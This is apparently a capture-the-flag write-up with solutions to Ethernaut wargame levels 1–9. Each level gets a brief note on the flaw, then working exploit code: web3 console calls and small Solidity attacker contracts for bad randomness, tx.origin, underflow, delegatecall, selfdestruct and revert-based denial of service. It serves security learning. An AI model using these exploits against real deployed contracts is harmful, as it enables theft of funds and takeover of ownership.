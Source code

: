 # Ethernaut solution

## 1. Fallback
Abusing erroneous logic between the functions and fallback function
```
await contract.contribute({value: 1234});
await contract.sendTransaction({value: 1234});
await contract.withdraw();
```

## 2. Fallout
Constructor is spelled wrongly; becomes a regular function
```
await contract.Fal1out({value: 1234});
await contract.sendAllocation(await contract.owner());
```

## 3. Coinflip
Don't rely on block number for any validation logic. I can calculate solution if both our txn in the same block and pass the result to your contract!
``` 
pragma solidity ^0.4.24;
import "./CoinFlip.sol";

contract CoinFlipSoln {
    CoinFlip private _victim;
    uint256 private lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _address) public {
        _victim = CoinFlip(_address);
    }
    
    function hackIt() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    _victim.flip(side);

  }
}
```

## 4. Telephone
Don't rely on tx.origin. Remember that when you call a contract (B) function from within another contract (A), the msg.sender is the address of A, not the account that you initiated the function from. The only way you can preserve msg.sender is through DelegateCall but that's another shit show by itself! Would avoid unless you know what you're doing.
```
pragma solidity ^0.4.24;
import "./telephone.sol";

contract HackIt {
    Telephone private telephone;
    
    constructor(address _address) public {
        telephone = Telephone(_address);
    }
    
    function hackIt() public {
        telephone.changeOwner(msg.sender);
    }
}
```

## 5. Token
Be careful of integer over/underflow. Always use safemath libraries. Basically I understood that no matter what parameter I entered as _value, it will always return a number that is > 0 because it's a uint therefore the require statement is as good as useless. 
```
await contract.transfer(instance, 25)
```

## 6. Delegation
Be very very careful when using delegatecall. msg.sender, msg.data, msg.value are all preserved. Always do a check to ensure that msg.data.length == 0 if you don't want them to call any function. https://solidity.readthedocs.io/en/v0.4.25/types.html#address for more info. All I had to do was trigger the fallback function (note that it is not payable) with "pwn()" as the msg.value. https://web3js.readthedocs.io/en/1.0/web3-eth.html#eth-sendtransaction
```
await contract.sendTransaction({data: web3.sha3("pwn()").slice(0, 10)})
```

## 7. Force
Even though your contract may not have a payable fallback function, you can still force ether transfers into your contract via selfdestruct or transaction fee rewards for mining a block. Do not ever assume that your contract will always have 0 balance and use it as part of validation.
```
pragma solidity ^0.4.24;

contract hackIt {
    
    address private _victim;
    
    constructor(address victim) public payable {
        _victim = victim;
    }
    
    function forceTransfer() public {
        selfdestruct(_victim);
    }
}
```

## 8. Vault
Essentially your private variables are completely exposed on a public chain simply by using a block explorer. The private visibility simply restricts other contracts from calling it. Ethereum stores data in 32 bytes slots. https://ethereum.stackexchange.com/questions/13910/how-to-read-a-private-variable-from-a-contract
1. Deploy contract in truffle to get ABI (inside of ./build/contracts), this tells you where the variable is stored (index 1)
2. truffle console --network ropsten to connect to ropsten (make sure your truffle.js is updated accordingly)
3. web3.eth.getStorageAt("contract address", index)

## 9. King
This is a classic example of DDoS with unexpected revert whereby when the contract tries to do a transfer back to you address (contract), your payable fallback function will simply revert (or if you don't have 1) thus ensuring that nobody can overtake your position as king. 
```
pragma solidity ^0.4.24;

contract KingForever {
    
    address private _victim;
    
    constructor(address victim) public payable {
        _victim = victim;
    }
    
    function throneIsMine() public {
        _victim.call.value(100000000000000)();
    }
    
    
    function() public payable {
        revert("The throne is mine forever");
    }
    
}
```






